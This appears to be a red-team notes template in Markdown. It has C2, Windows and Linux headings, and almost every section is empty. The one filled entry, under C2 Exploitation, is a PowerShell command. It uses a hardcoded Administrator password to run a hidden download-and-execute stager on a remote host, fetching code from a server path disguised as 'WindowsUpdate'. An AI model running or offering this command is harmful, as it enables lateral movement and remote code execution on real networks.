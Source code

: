 # C2
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
